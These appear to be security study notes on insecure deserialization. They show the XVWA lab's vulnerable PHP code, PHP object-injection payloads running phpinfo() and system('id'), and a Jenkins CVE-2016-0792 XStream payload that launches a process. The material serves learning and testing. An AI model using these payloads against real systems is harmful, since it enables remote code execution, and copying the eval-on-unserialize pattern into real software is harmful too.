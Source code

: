 # A8 - Insecure Deserialization


## XVWA

Target url:

`/xvwa/vulnerabilities/php_object_injection/?r=a:2:{i:0;s:4:%22XVWA%22;i:1;s:33:%22Xtreme%20Vulnerable%20Web%20Application%22;}`

Vulnerable code:

```
<?php 
    error_reporting(E_ALL);
    class PHPObjectInjection{
        public $inject;

        function __construct(){

        }

        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
//?r=a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
    if(isset($_REQUEST['r'])){  

        $var1=unserialize($_REQUEST['r']);
        

        if(is_array($var1)){ 
            echo "
".$var1[0]." - ".$var1[1];
        }
    }else{
        echo "parameter is missing";
    }
?>
```

PHP Code injection

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:10:"phpinfo();";}`

without restrictions

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}`

`O:18:%22PHPObjectInjection%22:1:{s:6:%22inject%22;s:13:%22system(%27id%27);%22;}`



## Jenkins CVE-2016-0792

```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando" reference="../../../.."/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
              </command>
              <redirectErrorStream>false</redirectErrorStream>
            </owner>
            <resolveStrategy>0</resolveStrategy>
            <directive>0</directive>
            <parameterTypes/>
            <maximumNumberOfParameters>0</maximumNumberOfParameters>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```
